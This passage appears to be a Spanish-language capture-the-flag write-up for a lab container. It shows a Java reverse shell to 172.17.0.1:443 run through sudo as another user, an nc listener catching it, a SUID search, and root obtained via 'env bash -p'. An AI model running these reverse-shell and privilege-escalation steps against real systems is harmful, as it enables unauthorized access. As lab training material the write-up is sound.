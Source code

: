 Vemos **java** con permisos SUDO  :

   ```bash
augustus@a3706ffc3f1c:/tmp$ cat shell.java
public class shell {
    public static void main(String[] args) {
        Process p;
        try {
            p = Runtime.getRuntime().exec("bash -c $@|bash 0 echo bash -i >& /dev/tcp/172.17.0.1/443 0>&1");
            p.waitFor();
            p.destroy();
        } catch (Exception e) {}
    }
}
augustus@a3706ffc3f1c:/tmp$ javac shell.java 
augustus@a3706ffc3f1c:/tmp$ sudo -u dylan /usr/bin/java shell


```

```bash

nc -nlvp 443 
listening on [any] 443 ...
connect to [172.17.0.1] from (UNKNOWN) [172.17.0.2] 46600
dylan@a3706ffc3f1c:/tmp$ 

```

YA ESTAMOS COMO DYLAN.

Vemos si hay archivos con permisos SUID:
   ```bash
dylan@a3706ffc3f1c:~$ find / -perm -4000 2>/dev/null
/usr/bin/su
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/umount
/usr/bin/mount
/usr/bin/gpasswd
/usr/bin/chsh
/usr/bin/env
/usr/bin/sudo
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper



```

Vemos **env** con permisos SUID  :

   ```bash
dylan@a3706ffc3f1c:~$ /usr/bin/env bash -p
bash-5.1# whoami
root
bash-5.1# 

```

**YA ESTAMOS COMO ROOT.**